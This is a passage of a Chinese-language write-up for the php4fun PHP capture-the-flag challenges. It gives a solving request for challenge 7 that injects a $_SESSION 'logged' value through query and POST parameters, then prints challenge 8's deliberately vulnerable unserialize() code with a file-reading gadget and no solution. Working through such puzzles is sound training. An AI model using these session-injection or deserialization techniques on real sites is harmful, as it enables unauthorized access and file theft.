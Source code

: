 ```
    $aff = display("Try again");
}
echo $aff;

```

### 攻略：

get the key from $hidden_password[207] 这句有点模糊，下面的‘所以’可以得到key（绕过REQUEST对数组的判断）

### 所以：

```
http://php4fun.sinaapp.com/c7/index.php?_SESSION[logged]=1
POST: _SESSION=1

```

challenge 8
-----------

* * *

php code：

```
#GOAL: file_get_content('sbztz.php')    : )

    class just4fun {
        public $filename;

        function __toString() {
            return @file_get_contents($this->filename);
        }
    }

    $data = stripslashes($_GET['data']);
    if (!$data) {
        die("hello from y");
    }

    $token = $data[0];
    $pass = true; 

    switch ( $token ) {
        case 'a' :
        case 'O' :
        case 'b' :
        case 'i' :
        case 'd' :
            $pass = ! (bool) preg_match( "/^{$token}:[0-9]+:/s", $data );
            break;

        default:
            $pass = false;

    }

    if (!$pass) {
      die("TKS L.N.");
    }

    echo unserialize($data); 

```
